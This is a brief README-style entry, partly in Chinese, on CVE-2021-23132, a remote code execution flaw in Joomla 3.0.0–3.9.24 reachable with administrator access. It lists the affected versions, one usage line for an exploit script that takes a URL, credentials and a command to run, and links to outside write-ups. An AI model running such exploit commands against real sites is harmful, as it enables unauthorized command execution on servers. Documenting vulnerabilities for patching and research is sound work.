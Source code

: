 ## CVE-2021-23132 Joomla 普通管理员RCE

影响版本：
- 3.0.0 <= Joomla! <= 3.9.24

EXP:
```
python3 cve-2021-23132.py -url http://192.168.72.140 -u admin -p 1234  -rce 1 -cmd ls
```

[@HoangKien1020](https://github.com/HoangKien1020/CVE-2021-23132)  
[@dmkxy](https://www.dmkxy.me/2021/03/18/Joomla!CVE-2021-23132%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0)